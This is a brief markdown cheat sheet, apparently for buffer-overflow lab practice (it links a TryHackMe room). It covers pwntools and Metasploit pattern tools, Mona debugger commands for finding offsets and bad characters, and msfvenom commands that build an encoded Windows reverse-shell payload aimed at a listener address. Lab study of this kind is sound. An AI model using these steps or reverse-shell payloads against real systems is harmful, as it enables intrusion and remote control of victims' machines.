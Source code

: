 # Generating unique patterns
buffer overflow stuff

## cyclic patterns
```
from pwn import *
cyclic(3000)
cyclic_find('abdd')
out[100] 2907
```


OR
```
cyclic_metasploit(3000)
cyclic_metasploit_find(0x33794332) 
```
OR

```
msf-pattern-create -l 3000
msf-pattern-offset -l 3000 -q 33794332

```
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
```

## Mona CheatSheet

**Setup your working directory**

`!mona config -set workingfolder c:\mona\%p`

<br>
<br>

`!mona findmsp -distance 600 `



**Generate a byte array**

`!mona bytearray -b "\x00"`

<br>
<br>

**Run your fuzzer till a crash**

**compare your stuff**

`!mona compare -f C:\mona\bytearray.bin -a ESP`

<br>
<br>

**Add newly found bad chars to your list to be removed, and regenerate your badchars list**

`!mona bytearray -b "\x00\x0a"`

<br>
<br>

**Resend the new list of badchars, and then compare again**

`!mona compare -f C:\mona\bytearray.bin -a ESP`

<br>
<br>

## MSF Payloads

`msfvenom -l payloads `

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.103 LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "\x00\x0a"`

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.103 LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "\x00\x0a" > shelloutput1.txt`

`sed -z 's/\n//g' shelloutput1.txt | sed -z 's/"//g' - `

https://tryhackme.com/room/bufferoverflowprep 

https://www.youtube.com/watch?v=1X2JGF_9JGM 
